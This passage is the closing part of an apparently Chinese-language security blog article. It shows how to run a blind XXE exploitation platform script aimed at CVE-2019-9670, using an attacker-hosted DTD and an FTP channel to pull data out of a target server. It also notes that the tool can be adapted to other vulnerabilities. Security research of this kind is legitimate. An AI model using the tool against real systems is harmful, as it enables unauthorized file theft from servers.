 FTP数据传输模式示例：

```
blind_XXEPlatform_CVE-2019-9670.py 192.168.1.1 80 21 192.168.1.2
```

- 本机IP为192.168.1.1
- XXE服务器dtd文件地址为`http://192.168.1.1:80/file.dtd`
- FTP数据传输地址为`ftp://192.168.1.1:21`
- 目标服务器地址为`https://192.168.1.2`

## 0x05 小结
---

本文介绍了blind XXE利用平台的实现，针对其他漏洞的利用，只需要修改函数`send_XXEPayload`的内容


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)














